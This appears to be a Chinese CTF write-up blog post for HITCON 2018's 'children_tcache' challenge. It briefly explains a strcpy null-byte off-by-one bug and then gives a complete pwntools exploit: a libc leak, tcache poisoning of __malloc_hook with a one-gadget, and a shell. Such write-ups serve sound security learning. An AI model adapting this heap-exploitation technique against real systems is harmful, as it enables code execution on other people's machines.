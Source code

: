 ```yaml
---
title: 'Hitcon:children_tcache'
date: 2018-11-16 22:07:12
tags:
layout: default
---
```

children..和baby是名字打错了吗/捂脸
<!--more-->
# Analysis
[附件][2]
baby_tcache的低级版...
[baby_tcache][1]
主要漏洞在strcpy存在null byte off
只要像babytcache一样构造直接show来leak就可以了...
主要思路在上题链接中这里不多赘述

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice: ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",data)
def show(idx):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index:",str(idx))

p=process("./children_tcache")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
for x in range(6):
	add(0x80,"\n")
add(0x5e0,'\n')#6
add(0x500,'\n')#7
add(0x80,'\n')#8
free(6)


add(0x18,'B'*0x18)#6
add(0x80,'\n')#9

for x in range(6):
	free(x)


free(8)
free(6)
add(0x100,'\n')#0
free(9)
free(7)
add(0x350,'\n')#1
add(0x30,'\n')#2
add(0x40,'\n')#3
show(0)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
libc.address=base
log.warning(hex(base))
add(0x100,'\n')
free(0)
free(4)
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(0x10a38c+base))
cmd(1)
p.sendline("0")
p.sendline("clear")
p.interactive("nier>>>")
```




[1]:[https://n132.github.io/2018/11/15/Hitcone-baby-tcache/]
[2]:[1]:https://github.com/n132/Watermalon/tree/master/Hitcon_2018/children_tcache